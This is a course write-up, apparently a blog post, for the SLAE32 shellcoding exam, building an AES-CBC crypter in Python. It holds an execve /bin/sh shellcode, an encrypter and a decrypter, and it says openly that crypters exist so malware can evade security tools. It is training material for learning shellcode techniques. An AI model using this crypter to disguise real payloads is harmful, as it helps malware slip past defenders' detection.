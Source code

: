 ```yaml
---
layout: single
title: "SLAE: Custom Shellcode Crypter"
excerpt: "Create a custom shellcode crypter."
date: 2020-06-25
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```


_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_7)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

Our 7th and final assignment for SLAE32 we will create a custom shellcode crypter.

Crypters are used to encrypt malware for the purpose of security evasion. It allows malware to masquerade as harmless code until such time it is executed.

The encryption method I have chosen is "Rijndael" (After the designers Vincent Rijmen and Joan Daemen) AKA Advanced Encryption Standard.

Advanced cryptography is a bit beyond my current skill level, however I will attempt to provide a low-level explanation.

AES is a form of symmetric encryption; symmetric meaning the same key used to encrypt is used to decrypt. To contrast this, RSA (typically used for remote connections) is asymmetric, using a public (server) and private (client) key. So in RSA, if you were to encrypt with the public key, the private key would be required to decrypt and vice versa. However with AES the same key that was used in encryption will need to be fed for decryption.

AES256 encrypts in 14 rounds, with 1.1 x 10^77 possible combinations.
Rather than encrypting a string, AES takes the bytes and lays them out in columns within a 4x4 grid.

![grid](/assets/images/SLAE_7/1.JPG) source [computerphile](https://www.youtube.com/watch?v=O4xNJsjtN6E)

It then works through a varying number of rounds where it will xor information against part of the key, substitute bytes and finally permute until we have an incredibly tough cypher.

![AES_round](/assets/images/SLAE_7/2.JPG)

Now that I have finished procrastinating, it is time to look at writing our own.
Luckily for me, Python has modules that can aid this task.
I read up on what is required at the following link: [https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/](https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/)


```
from Crypto.Cipher import AES
import sys

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80") # must be divisible by 16

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes

if len(key)!=16:
	print("[!]key MUST be 16 bytes\n[!]Exiting")
	sys.exit()
if len(iv)!=16:
	print("[!]iv MUST be 16 bytes\n[!]Exiting")
	sys.exit()
cipher = AES.new(key, AES.MODE_CBC, iv)


if len(shellcode)%16 !=0:
	print("[!]shellcode not divisible by 16, padding")
	remainder = len(shellcode)%16 #figure out how many extra chars there are stopping it being divisible by 16
	padnumber = 16 - remainder #figure out how many characters we need to make up the difference
	shellcode = shellcode + ('1' * padnumber) #add exactly that many chars to the end of shellcode, thus making it divisible by 16

print("Padded by "+str(padnumber))
encrypt = cipher.encrypt(shellcode) # use cypher to encrypt ourshellcode against specified key and iv
encoded = ""
for x in bytearray(encrypt): #process code to give us shellcode as we have done in previous assignments
	  encoded += '\\x'
	  encrypt = '%02x' % x
	  encoded += encrypt

print("Encrypted shellcode: "+encoded)
```
Running our code as below gives us our encrypted string

![encrypted](/assets/images/SLAE_7/3.JPG)

Taking the encrypted string and placing it in our decoder before running it yields the exact same shellcode we originally placed in our encrypter script - thus, the string has been decrypted.

```
from Crypto.Cipher import AES
 
shellcode = ("\xc9\xc9\x0f\xaf\xf8\x6c\x82\x69\xa6\x95\x25\x1e\xdd\x5e\xbc\x79\xd0\xec\xdb\xa5\x81\xa0\xfe\x55\x56\x6d\xe8\x7a\xed\x08\xc9\x99")

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes
 
cipher = AES.new(key, AES.MODE_CBC, iv)
padnumber=int("7") 
decrypt = cipher.decrypt(shellcode)
encoded = ""     

for x in bytearray(decrypt):
	  encoded += '\\x'
	  dec = '%02x' % x#(x & 0xff)
	  encoded += dec
 
print encoded[0:-padnumber*4]
```

![decrypted](/assets/images/SLAE_7/4.JPG)

